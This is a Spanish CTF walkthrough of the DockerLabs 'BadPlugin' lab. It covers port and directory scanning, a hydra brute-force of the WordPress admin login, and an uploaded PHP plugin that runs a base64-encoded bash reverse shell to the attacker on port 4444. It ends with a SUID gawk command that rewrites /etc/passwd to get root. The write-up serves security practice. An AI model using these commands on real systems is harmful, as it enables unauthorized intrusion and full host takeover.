



Maquina **BadPlugin** de [DockerLabs](https://dockerlabs.es)

Autor: [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

Dificultad: Medio



# Reconocimiento

Comenzamos con un escaneo de `nmap`:

(En mi caso la ip de la maquina es `192.168.1.100`)

```css
nmap -p- --open --min-rate 5000 -sSVC -Pn -n -vvv 192.168.1.100 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Tue Dec 31 20:32:14 2024 as: nmap -p- --open --min-rate 5000 -sSVC -Pn -n -vvv -oN escaneo.txt 192.168.1.100
Nmap scan report for 192.168.1.100
Host is up, received arp-response (0.000015s latency).
Scanned at 2024-12-31 20:32:14 -03 for 9s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Error Message
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:C0:A8:01:64 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 31 20:32:23 2024 -- 1 IP address (1 host up) scanned in 8.74 seconds
```

Solo vemos un puerto abierto en la maquina ubuntu:

•`Puerto 80: Apache httpd 2.4.58`

#### Fuzzing

Luego de revisar la web manualmente, no encuentro nada, por lo que me dispongo a realizar fuzzing con `gobuster`:

```css
gobuster dir -u "http://192.168.1.100" -w $seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.100
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1960]
/info.php             (Status: 200) [Size: 87184]
/wordpress            (Status: 301) [Size: 318] [--> http://192.168.1.100/wordpress/]
/javascript           (Status: 301) [Size: 319] [--> http://192.168.1.100/javascript/]
/phpmyadmin           (Status: 301) [Size: 319] [--> http://192.168.1.100/phpmyadmin/]
Progress: 145326 / 882240 (16.47%)
===============================================================
Finished
===============================================================
```

luego de revisar todo, veo que lo interesante es `/wordpress/`, ya que este tiene un dominio el cual es `escolares.dl`, por lo que lo agregamos al `/etc/hosts` de la siguiente manera:

```css
<IP>	escolares.dl
```

#### Wordpress intrusion

Como sabemos, wordpress tiene algunos archivos predeterminados, así que podemos ir al panel de login entrando en `http://<SINP>/wp-login.php`. Luego de probar varios usuarios, veo que el correcto es `admin`, ya que el mensaje de error dice lo siguiente:

```css
Error: la contraseña que has introducido para el nombre de usuario admin no es correcta.
```

esto significa que el usuario `admin` existe, por lo que ahora simplemente debemos hacer fuerza bruta al panel usando `hydra`. Para esto hacemos un intento de login incorrecto teniendo abiertas las devtools de firefox en la parte de network:



como vemos en la imagen, tenemos que seleccionar la solicitud `POST`, ya que esta es la única que nos interesa. Una vez seleccionada vamos a la sección `Solicitud` y seleccionamos `Sin procesar` y ya tendremos la solicitud en crudo para pasársela a `hydra`:

```css
log=admin&pwd=asd&wp-submit=Acceder&redirect_to=http%3A%2F%2Fescolares.dl%2Fwordpress%2Fwp-admin%2F&testcookie=1
```

Finalmente, el ataque nos quedaría asi:

```css
hydra -l admin -P /opt/rockyou.txt escolares.dl http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Acceder&redirect_to=http%3A%2F%2Fescolares.dl%2Fwordpress%2Fwp-admin%2F&testcookie=1: la contraseña que has introducido para el nombre de usuario" -V
```


ahora ya tenemos la contraseña, por lo que simplemente nos logearemos.

# Intrusión

Normalmente podríamos instalar un plugin que nos permita entrar, pero como la maquina deja sin internet toda la computadora, tendremos que crear nuestro propio plugin.

#### Plugin creation

Para esto empezaremos creando un archivo llamado `shell.php` el cual contenga esto:

```php
<?php
/*
Plugin Name: Hack 172.17.0.1
Description: Reverse shell al puerto 4444 cuando se accede a http://escolares.dl/wordpress/wp-content/plugins/shell/shell.php
Version: 99999999.0
Author: maciiii___
*/
?>

<?php
system("echo 'base64prompt' | tee /tmp/shell; base64 -d /tmp/shell | bash");
?>
```

luego, ejecutaremos lo siguiente:

```css
echo "bash -c '/bin/bash -i >& /dev/tcp/<$IP>/4444 0>&1'" | base64
```

Ahí tienes que reemplazar `<$IP>` por la ip tuya y la salida ponerla en el script php en la parte que dice "base64prompt". Una vez tenemos el archivo php listo, lo metemos en un zip de la siguiente manera:

```css
zip -r shell.zip shell.php
```

luego, vamos a el wordpress, y en la sección de "Añadir Plugin", tocamos donde dice "Subir plugin" y desde ahí cargamos el que acabamos de crear. Finalmente, escuchamos por el puerto 4444:

```css
nc -nlvp 4444
```

y entramos en:

```css
http://escolares.dl/wordpress/wp-content/plugins/shell/shell.php
```

# Escalada de privilegios

### www-data

##### Enumeración de binarios con SUID

Una vez dentro y con el tratamiento de la tty realizado, procedemos a buscar binarios con el SUID activado de la siguiente manera:

```css
find / -perm -4000 2>/dev/null
```

```css
www-data@0df58f758c67:~$ find / -perm -4000 2>/dev/null
/usr/bin/su
/usr/bin/umount
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/gawk
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
www-data@0df58f758c67:~$ 
```

#### Binary `gawk` abuse

Como vemos en el resultado, `gawk` se encuentra en la lista, por lo cual significa que podríamos escribir archivos, ya que `gawk` es como `awk`. Para hacerlo debemos ejecutar lo siguiente:

```css
/usr/bin/gawk -F 'x' '{print $1 $NF > "/etc/passwd"}' /etc/passwd
```

esto eliminará la 'x' de root y podremos escalar ejecutando `su root` sin necesidad de contraseña.

### Root



Gracias por leer ;)